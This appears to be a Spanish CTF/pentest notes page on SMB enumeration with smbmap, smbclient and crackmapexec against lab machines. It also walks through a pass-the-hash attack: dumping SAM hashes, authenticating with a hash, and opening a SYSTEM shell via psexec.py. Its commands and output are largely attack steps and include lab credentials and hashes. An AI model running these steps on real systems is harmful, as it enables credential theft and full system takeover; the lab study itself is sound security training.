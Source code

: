 # ENUMERACION CON SMB PORT 445
## Enumeración de recursos compartidos SMP

### ¿Qué es un SMB?
---

El puerto445 es "SMB sobre IP". SMB son las siglas de 'Server Message Blocks'. En lenguaje moderno, Server Message Block también se conoce como Common Internet File System. El sistema funciona como un protocolo de red de capa de aplicación utilizado principalmente para ofrecer acceso compartido a archivos, impresoras, puertos serie y otros tipos de comunicaciones entre nodos de una red.
Por ejemplo, en Windows, SMB puede ejecutarse directamente sobre TCP/IP sin necesidad de NetBIOS sobre TCP/IP. Esto utilizará, como señalas, el puerto 445. En otros sistemas, encontrarás servicios y aplicaciones que utilizan el puerto 139. Esto significa que SMB se ejecuta con NetBIOS sobre TCP/IP.

### Scanear Recursos Compartidos smbmap

```ruby
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/…/CTF/vulnhub/venom1/nmap]
└─# smbmap -H 192.168.200.150 
[+] Guest session       IP: 192.168.200.150:445 Name: venom.box                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (venom server (Samba, Ubuntu))
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
En la ejecución anterior se puede evidenciar que existe recursos compartidos, sin embargo, no hay accesos.

### Scanear Recursos Compartidos smbclient

Se puede listar `flag -L`los recusros compartidos con  al herramienta smclient, usando el usuario anonymous o null session, `smbclient -L 10.10.10.3 -N` en caso de presentar error `NT-STATUS_CONNECTION_DISCONENECTED`, ese error puede se puede solucionar agregando el parametro `--options` como esta acontinuación.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```
Cuando se encuantra recursos compartidos con accesos mediante null session, se puede autenticar a la carpeta, cona al herramienta `smbclient`.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient //10.10.10.3/tmp -N                                     
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jan 24 12:25:55 2023
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  .ICE-unix                          DH        0  Tue Jan 24 10:55:30 2023
  vmware-root                        DR        0  Tue Jan 24 10:55:58 2023
  .X11-unix                          DH        0  Tue Jan 24 10:55:55 2023
  .X0-lock                           HR       11  Tue Jan 24 10:55:55 2023
  5563.jsvc_up                        R        0  Tue Jan 24 10:56:32 2023
  vgauthsvclog.txt.0                  R     1600  Tue Jan 24 10:55:28 2023

                7282168 blocks of size 1024. 5386540 blocks available
smb: \> 
```
### Scanear Recursos Compartidos crackmapexec 
Aprovechando que el puerto smb esta abierto podemo ennumerar los recursos compartidos utilzando crackmapexec.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# crackmapexec smb 10.10.10.4
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
```
Para listar los recursos compartidos
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# crackmapexec smb 10.10.10.4 -u 'null' -p '' --shares           
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
SMB         10.10.10.4      445    LEGACY           [-] legacy\null: STATUS_LOGON_FAILURE 
```                                                                                          
### Pass The Hash
"Pass the Hash" (PtH) es una técnica utilizada por los atacantes en ciberseguridad para obtener acceso a sistemas y redes mediante el uso de hashes de contraseñas en lugar de la contraseña real. En lugar de adivinar o romper la contraseña de un usuario, los atacantes utilizan herramientas para extraer los hashes de las contraseñas almacenados en un sistema y luego utilizar esos hashes para autenticarse en el sistema como si tuvieran la contraseña real. Esto les permite obtener acceso a los recursos protegidos por el usuario afectado.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c]
└─# crackmapexec smb 10.10.10.152 -u 'usuariodos' -p 'p3nT3st!' --sam
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\usuariodos:p3nT3st! (Pwn3d!)
SMB         10.10.10.152    445    NETMON           [+] Dumping SAM hashes
SMB         10.10.10.152    445    NETMON           Administrator:500:aad3b435b51404eeaad3b435b51404ee:d0f73603a4d96655430fdf02de4afaee:::
SMB         10.10.10.152    445    NETMON           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.152    445    NETMON           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.152    445    NETMON           usuariodos:1000:aad3b435b51404eeaad3b435b51404ee:6df6a842ba1250d3fbf4ab6b3d54bcbc:::
SMB         10.10.10.152    445    NETMON           [+] Added 4 SAM hashes to the database
```
Con las hashes obtenidos se puede hacer un pass the hashses, con crackmapexec.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# crackmapexec smb 10.10.10.152 -u 'Administrator' -H 'd0f73603a4d96655430fdf02de4afaee'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\Administrator:d0f73603a4d96655430fdf02de4afaee (Pwn3d!)
```
Con la herramienta `psexec.py`, se puede utilizar el hashs para iniciar una sesion mediante una shell.

```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# psexec.py WORKGROUP/Administrator@10.10.10.152 -hashes :d0f73603a4d96655430fdf02de4afaee
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file OHhKIKGU.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NKHY on 10.10.10.152.....
[*] Starting service NKHY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```